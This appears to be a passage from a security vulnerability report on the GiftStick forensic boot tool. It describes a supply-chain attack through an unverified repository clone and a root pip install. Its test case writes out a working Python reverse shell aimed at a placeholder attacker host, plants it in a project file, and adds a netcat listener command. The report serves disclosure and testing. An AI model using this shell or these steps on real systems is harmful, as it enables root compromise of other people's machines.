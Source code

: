       Target System (GiftStick Booted) --> Internet (github.com/google/GiftStick) --> Attacker (MITM or Repo Compromise) --> Malicious GiftStick Code --> Target System (Root Compromise via `sudo pip install .`)
      ```
  - Security Test Case:
    - Step 1: Set up a controlled network environment where you can simulate a MITM attack or, for testing purposes, directly host a malicious Git repository mimicking `github.com/google/GiftStick`.
    - Step 2: Create a malicious GiftStick repository. In this repository, modify the `auto_forensicate/auto_acquire.py` file to include malicious code. For example, add a simple reverse shell that connects back to an attacker-controlled machine:
      ```python
      # In auto_forensicate/auto_acquire.py
      import os
      import socket
      import subprocess

      # Malicious code: Reverse shell
      def reverse_shell():
          try:
              s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
              s.connect(("attacker_ip", 4444)) # Replace attacker_ip
              os.dup2(s.fileno(), 0)
              os.dup2(s.fileno(), 1)
              os.dup2(s.fileno(), 2)
              subprocess.call(["/bin/sh", "-i"])
          except Exception as e:
              pass # Handle exceptions silently in boot scripts

      reverse_shell()

      # ... rest of the original auto_acquire.py code ...
      ```
      **Note**: Replace `"attacker_ip"` with the IP address of your attacker-controlled machine that will listen for the reverse shell connection.
    - Step 3: Configure your network to redirect requests for `github.com` to your malicious server (if simulating MITM) or directly host the malicious repository on a server accessible to the test system.
    - Step 4: Create a GiftStick USB drive using the standard `remaster.sh` script and a clean Xubuntu 20.04 ISO.
    - Step 5: Boot a test system from the created GiftStick USB drive. Ensure this test system is connected to the network where your malicious server is set up and can resolve the (faked or real, depending on test setup) `github.com`.
    - Step 6: On your attacker-controlled machine, set up a netcat listener to receive the reverse shell connection: `nc -lvnp 4444`.
    - Step 7: Observe the boot process of the test system. The `call_auto_forensicate.sh` script should execute, clone the malicious GiftStick repository, and install it.
    - Step 8: Check your netcat listener. You should receive a reverse shell connection from the compromised test system, indicating successful arbitrary code execution with root privileges.
